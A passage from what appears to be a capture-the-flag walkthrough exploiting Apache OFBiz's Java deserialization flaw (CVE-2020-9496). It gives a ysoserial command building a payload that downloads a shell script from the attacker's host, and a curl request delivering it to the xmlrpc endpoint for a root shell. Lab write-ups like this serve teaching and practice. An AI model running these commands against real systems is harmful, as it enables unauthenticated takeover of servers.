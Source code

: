 ![Pasted image 20210717182316.png](/assets/Pasted%20image%2020210717182316.png)

Let's see if there is a vulnerability in Apache OFBiz.

We find a RCE caused by Java deserialization of untrusted data
> The unsafe deserialization could be exploited to execute code remotely, essentially allowing an unauthenticated attacker to successfully take over Apache OFBiz.

We find a metasploit module for it. But I don't want to use metasploit, so I tried another way, and I found this PoC of the [CVE-2020-9496](https://github.com/g33xter/CVE-2020-9496).
> This vulnerability exists due to Java serialization issues when processing requests sent to /webtools/control/xmlrpc. A remote unauthenticated attacker can exploit this vulnerability by sending a crafted request. Successful exploitation would result in arbitrary code execution.

Follow the steps of the PoC.

For Step 4, make sure to put http in the URL of your machine
```
java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget http://{YOUR_IP}/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"
```


For Step6, here is the command, replace the {BASE64_OUTPUT} with the output you got from the previous step
```bash
curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">{BASE64_OUTPUT}</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```

After executing the PoC, we have a root shell
![Pasted image 20210717185538.png](/assets/Pasted%20image%2020210717185538.png)

